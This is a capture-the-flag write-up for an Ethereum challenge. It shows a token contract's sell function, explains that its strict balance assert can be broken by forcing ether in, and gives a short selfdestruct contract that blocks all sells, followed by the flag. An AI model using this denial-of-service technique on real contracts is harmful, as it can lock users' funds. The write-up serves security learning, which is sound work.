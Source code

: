# Challenge 01 : Classic one tbh [17 solves] [489 points] [First blood 🩸]

```
ERC20, bad guy has money in it, prevent him from getting his money back. 
This is a standalone ERC20, not available on a swap.
Block all the sells to get the flag
```

Our goal is to block the sell function 

```solidity
    function sell(uint256 _amount) external {
        require(userBalances[msg.sender] >= _amount, "Insufficient balance");

        userBalances[msg.sender] -= _amount;
        totalSupply -= _amount;

        (bool success, ) = msg.sender.call{value: _amount * TOKEN_PRICE}("");
        require(success, "Failed to send Ether");

        assert(getEtherBalance() == totalSupply * TOKEN_PRICE);
    }
```

It will revert when getEtherBalance() does not equal to totalSupply * TOKEN_PRICE, so we can just send ether to it to make it revert

```solidity
pragma solidity ^0.8.0;

contract chall1_solve {
    constructor(address chall1) public payable {
        selfdestruct(payable(chall1));
    }
}
```

Just deploy this contract and send 1 wei to it, then it will send 1 wei to the challenge contract

Flag :
```
Hero{S4m3_aS_USU4L_bUT_S3eN_IRL??!}
```